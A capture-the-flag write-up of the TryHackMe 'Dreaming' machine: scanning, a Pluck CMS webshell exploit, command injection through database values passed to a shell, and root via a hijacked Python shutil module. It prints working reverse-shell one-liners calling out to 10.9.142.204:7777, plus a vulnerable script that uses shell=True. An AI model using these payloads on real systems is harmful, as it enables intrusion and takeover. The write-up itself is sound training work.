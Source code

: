 ```yaml
---
title: Dreaming (THM)
description: Write-up of Dreaming Machine 
date: 2023-11-27 09:00:00 -3000
categories: [tryhackme]
tags: [tryhackme, thm, writeup, easy, machine, linux, code-injection, path-manipulation]
author: trace
---
```


## Reconnaissance

We start with the nmap scan and see the following ports which are open

![[nmapscan.png]](https://i.imgur.com/CpHTNiT.png)

nothing too interesting for now so we run directory bruteforce in order to find something

![[gobuster.png]](https://i.imgur.com/oaDZmeC.png)

and as you can see we do get to see something interesting here `/app` seems kinda interesting to me so we visit that web directory

and it's the pluck cms version 4.7.13

![[pluck.png]](https://i.imgur.com/LpbN4Mp.png)

further we see it asks for the password and upon trying some default creds `password` was the right password so we get a login successful on this

from here on i further start to enumerate this cms and looking for the exploit for this specific version and exploitDB fortunately has one 

![[exploit.png]](https://i.imgur.com/pg1ayL3.png)

so we prepare the payload and run the exploit on this vulnerable cms
and it successfully upload the webshell, 

![[uploadedwebshell.png]](https://i.imgur.com/vu2YwiC.png)

## Foothold (User1)

So upon visiting that webshell we get a revshell to our machine of that webshell and get the `www-user`

![[Screenshot_2023-11-24_15-12-51.png]](https://i.imgur.com/DivQXpN.png)

and now we look for low hanging fruits and potential to get a user so we could get our first flag
and after quite a while of doing some manual enumeration, we find lucien password found **/opt/test.py** 
and can login into SSH with it and get our first flag

![[lucianuser.png]](https://i.imgur.com/h8BTpHk.png)


## Foothold (User2)

from the past enumeration i saw one more script in the `/opt` directory which was owned user `death`.
and lucian can execute  `getDreams.py`  as death user without a password, but we cannot read it.

![[privescloop1.png]](https://i.imgur.com/BjX0bQ3.png)

so now comes the code reviewing part lol which was super easy here we see a mysql connection, but the credentials are redacted

````python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
````

So it goes like: 
1. **MySQL Credentials:** The code defines three variables, `DB_USER`, `DB_PASS`, and `DB_NAME`, to store the MySQL credentials. These credentials are used to connect to the MySQL database.
    
2. `getDreams()` Function: The `getDreams()` function is the main part of the code. It handles the process of connecting to the MySQL database, fetching data from the `dreams` table, and echoing the dreamer and dream information to the console.
    
    a. **Connecting to MySQL:** The `try-except-finally` block is used to handle any errors that might occur during the database connection or query execution. The `connect()` method of the `mysql.connector` library is used to establish a connection to the MySQL database using the provided credentials.
    
    b. **Executing SQL Query:** A cursor object is created using the `connection.cursor()` method. This cursor object is used to execute SQL queries against the database. The `query` variable contains the SQL query to fetch the `dreamer` and `dream` columns from the `dreams` table. The `cursor.execute(query)` method is used to execute the query.
    
    c. **Fetching Dreamer and Dream Information:** The `cursor.fetchall()` method is used to fetch all the rows from the result set of the executed query. Each row contains a tuple of the `dreamer` and `dream` values.
    
    d. **Echoing Dreamer and Dream Information:** If there are no dreams found in the database, an error message is printed. Otherwise, the code loops through the fetched dream information and constructs a command using the `subprocess` library. The command is used to echo the dreamer and dream information to the console.
    
    e. **Closing Cursor and Connection:** Finally, the cursor and connection objects are closed using the `cursor.close()` and `connection.close()` methods, respectively. This ensures that the connection resources are properly released.
    
3. **Calling `getDreams()` Function:** The `getDreams()` function is called at the end of the code to execute the process of fetching and echoing dream information.
   
so we can clearly see command execution happening here

````python
command = f"echo {dreamer} + {dream}"
````

the variables `dreamer` and `dream` come from the mysql connection, so we need to connect to it someway.
now we do more enumeration and finally i see the .bash_history was getting refferred to `/dev/null` so we can read the .bash_histroy
and you can clearly see that is here where the information from getDreams are being retrieved.

![[lucianpass.png]](https://i.imgur.com/fsPFgth.png)

since lucien can insert into table “dreams”, we can insert a payload to get us a reverse shell.

so we create a bash script file that returns a python reverse shell to be executed 
````python
export RHOST="10.9.142.204";export RPORT=7777;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
````

so now what we do is inset into `dreams` table the python payload we have created  

![[valuesinserted.png]](https://i.imgur.com/I8BSWuI.png)

and execute `getDreams.py` as death user to get a reverseshell as `death` user.

````bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
````

and We get the `death` user

![[Screenshot_2023-11-24_16-39-48.png]](https://i.imgur.com/mHoEh4E.png)

now enuemating `morpheus` user's directory we see quite a few interesting things

![[morpheushome.png]](https://i.imgur.com/Burg34H.png)

## Root (User3)

so once i cat that script we can see it is import shutil from somewhere

````bash
death@dreaming:/home/morpheus$ cat restore.py 
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
````

so now we try to grep the `shutil` and we find it here `/usr/lib/python3.8/shutil.py `
reviewing the code and checking for perms we can see it is ran as morpheus user which is our last and final user(root). and we have edit permissions to it

so we put our reverse shell in the `shutil.py`

```python
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.9.142.204/7777 0>&1'\")" > /usr/lib/python3.8/shutil.py
````

And we get the shell after few seconds

![[root.png]](https://i.imgur.com/4hkOVm1.png)

![[rootflag.png]](https://i.imgur.com/hNzfGe3.png)
